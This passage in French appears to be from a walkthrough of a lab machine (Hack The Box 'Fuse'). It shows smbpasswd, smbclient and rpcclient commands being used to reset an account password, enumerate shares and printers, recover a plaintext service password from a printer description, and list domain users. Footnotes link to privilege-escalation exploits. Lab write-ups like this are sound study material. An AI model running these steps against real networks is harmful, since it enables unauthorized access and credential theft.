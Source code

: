 ## smbpasswd - changer le mdp

Je renouvelle le mot de passe du compte `tlavel`.

```bash
kali@kali:~/Fuse$ smbpasswd -U "fabricorp\\tlavel" -r 10.10.10.193
Old SMB password: <Fabricorp01>
New SMB password: <p@ssw0rd>
Retype new SMB password: <p@ssw0rd>
Password changed for user tlavel
```

## smbclient - enum des shares

Je constate que vous avons un spooler actif sur ce contrôleur de domaine.

```bash
kali@kali:~/fuse$ smbclient -L \\\\10.10.10.193 -U "fabricorp\\tlavel"
Unable to initialize messaging context
Enter FABRICORP\tlavel's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Le mot de passe de `tlavel` est réinitialisé très rapidement. Il faut être rapide dans les recherches. En lien avec le spooler actif, je vérifie les imprimantes connectées.

## rpcclient - enum des imprimantes

```bash
rpcclient $> enumprinters 
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central
        (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

La description de l'imprimante contient un mot de passe, pour un compte `scan2docs` : **$fab@s3Rv1ce$1**

## rpcclient - emum des users du domaine

```bash
rpcclient $> enumdomusers
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[svc-print] rid:[0x450]
    user:[bnielson] rid:[0x451]
    user:[sthompson] rid:[0x641]
    user:[tlavel] rid:[0x642]
    user:[pmerton] rid:[0x643]
    user:[svc-scan] rid:[0x645]
    user:[bhult] rid:[0x1bbd]
```

[^2]: https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
[^1]: https://github.com/tandasat/ExploitCapcom